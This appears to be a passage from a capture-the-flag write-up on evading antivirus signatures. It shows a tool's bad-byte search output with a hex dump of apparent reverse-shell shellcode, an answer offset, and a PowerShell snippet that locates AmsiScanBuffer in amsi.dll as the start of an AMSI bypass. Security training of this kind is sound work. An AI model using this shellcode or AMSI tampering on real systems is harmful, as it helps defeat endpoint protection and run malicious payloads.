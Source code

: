 ```powershell
[*] Testing 56206 bytes
[*] Threat found, splitting
[*] Testing 53273 bytes
[*] Threat found, splitting
[*] Testing 51807 bytes
[*] Threat found, splitting
[...]
10 minutes later
[...]
[*] Testing 50509 bytes
[*] Threat found, splitting
[*] Testing 50503 bytes
[*] Threat found, splitting
[*] Testing 50500 bytes
[*] Threat found, splitting
[!] Identified end of bad bytes at offset 0xC544
00000000   95 CE 77 FF D5 90 E9 09  00 00 00 3C 7E 5F 66 24   ?IwÿO?é····<~_f$
00000010   8C 09 80 09 31 C0 E9 09  00 00 00 14 4A C5 E1 9B   ?·?·1Aé·····JÅá?
00000020   26 A5 81 BE 64 FF 30 90  64 89 20 90 E9 09 00 00   &¥?_dÿ0?d? ?é···
00000030   00 EF 4F E2 4F 7A FE 36  F1 04 FF D3 90 E9 24 FF   ·ïOâOz_6ñ·ÿO?é$ÿ
00000040   FF FF E8 E4 FE FF FF FC  E8 8F 00 00 00 60 31 D2   ÿÿèä_ÿÿüè?···`1O
00000050   89 E5 64 8B 52 30 8B 52  0C 8B 52 14 8B 72 28 0F   ?åd?R0?R·?R·?r(·
00000060   B7 4A 26 31 FF 31 C0 AC  3C 61 7C 02 2C 20 C1 CF   ·J&1ÿ1A¬<a|·, AI
00000070   0D 01 C7 49 75 EF 52 8B  52 10 57 8B 42 3C 01 D0   ··ÇIuïR?R·W?B<·D
00000080   8B 40 78 85 C0 74 4C 01  D0 8B 58 20 01 D3 50 8B   ?@x?AtL·D?X ·OP?
00000090   48 18 85 C9 74 3C 49 8B  34 8B 01 D6 31 FF 31 C0   H·?Ét<I?4?·Ö1ÿ1A
000000A0   AC C1 CF 0D 01 C7 38 E0  75 F4 03 7D F8 3B 7D 24   ¬AI··Ç8àuô·}o;}$
000000B0   75 E0 58 8B 58 24 01 D3  66 8B 0C 4B 8B 58 1C 01   uàX?X$·Of?·K?X··
000000C0   D3 8B 04 8B 01 D0 89 44  24 24 5B 5B 61 59 5A 51   O?·?·D?D$$[[aYZQ
000000D0   FF E0 58 5F 5A 8B 12 E9  80 FF FF FF 5D 68 33 32   ÿàX_Z?·é?ÿÿÿ]h32
000000E0   00 00 68 77 73 32 5F 54  68 4C 77 26 07 FF D5 B8   ··hws2_ThLw&·ÿO,
000000F0   90 01 00 00 29 C4 54 50  68 29 80 6B 00 FF D5 6A   ?···)ÄTPh)?k·ÿOj

[*] Run time: 695.64s
```
{: .nolineno }

Answer : 0xC544

## TASK 4 : Static Code-Based Signatures
### What flag is found after uploading a properly obfuscated snippet?
We need to obfuscate the following powershell code snippet :

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
```